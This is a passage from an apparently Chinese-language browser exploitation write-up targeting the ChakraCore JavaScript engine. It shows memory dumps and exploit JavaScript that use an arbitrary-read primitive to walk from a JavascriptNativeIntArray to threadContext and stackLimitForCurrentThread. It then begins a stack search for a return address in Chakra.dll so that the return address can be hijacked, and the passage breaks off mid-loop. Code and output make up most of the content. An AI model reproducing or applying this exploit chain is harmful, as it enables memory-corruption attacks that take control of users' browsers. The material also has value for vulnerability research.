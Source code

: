 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://static.zybuluo.com/vbty/69tqrvuwxq35m8cxf09ydvei/%E6%8D%95%E8%8E%B7.PNG)

threadContext的地址是0x264e2f08a0<br>
得到threadContext的地址之后就可以读出stackLimitForCurrentThread的值

```
0x000001A9352908A0  00007ff826c8b6e0  ???&amp;?... &lt;=threadContext
0x000001A9352908A8  0000000000000000  ........
0x000001A9352908B0  0000000000000000  ........
0x000001A9352908B8  000001a935208220   ? 5?...
0x000001A9352908C0  000001a935209030  0? 5?...
0x000001A9352908C8  0000000000000000  ........
0x000001A9352908D0  0000000000000000  ........
0x000001A9352908D8  0000000000000000  ........
0x000001A9352908E0  0000000000000000  ........
0x000001A9352908E8  0000000000000000  ........
0x000001A9352908F0  0000000000000000  ........
0x000001A9352908F8  0000000000000000  ........
0x000001A935290900  0000000000000000  ........
0x000001A935290908  000001b135398180  €?95?...
0x000001A935290910  0000000000000000  ........
0x000001A935290918  00007df400000001  ....?`}`..
0x000001A935290920  0000001024f0c000  .??$.... &lt;=stackLimitForCurrentThread +0x80
```

```
let stack_addr=new Int64(tdctx_value.low+0x80,tdctx_value.high);
let stack_value=r64(stack_addr);
print('threadContext address');
print(stack_value.high.toString(16));
print(stack_value.low.toString(16));
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://static.zybuluo.com/vbty/pkssex3p0881g15qvx5vmctq/%E6%8D%95%E8%8E%B7.PNG)<br>
stackLimitForCurrentThread的值是0x2ecdc0c000表示栈的上界，通过上界可以确定栈的大致范围之后根据返回地址进行搜索。

简单的回顾一下获取栈地址的过程：JavascriptNativeIntArray-&gt;Type Object-&gt;JavascriptLibrary-&gt;ScriptContent-&gt;threadContent-&gt;stackLimitForCurrentThread



## 劫持返回地址

前面我们获得了栈的大概地址，为了获得栈中确切的返回地址需要进行搜索。<br>
首先确定栈的大致搜索范围，因为栈是从高地址向低地址扩展的，用stackLimitForCurrentThread加上0xf0000获得一个大概的搜索起点。<br>
返回地址通过前面泄漏Chakra.dll模块基址已经得知，只要搜索匹配返回地址就可以得到JavascriptString::EntrySlice函数返回时程序的rsp的地址。

```
let search_start=new Int64(stack_value.low+0xf0000,stack_value.high);

    var addr=new Int64(search_start.low,search_start.high);
    var ret_value_offset=0x47a472;
    var ret_value=new Int64(dll_base.low+ret_value_offset,dll_base.high);
    for (var i = 8; i &lt; 0x10000; i += 8)
    `{`

        addr=new Int64(search_start.low+i,search_start.high);
        let val = r64(addr);
        print('==========');
        print('read address');
        print(addr.high.toString(16));
        print(addr.low.toString(16));

        print('read value');
```
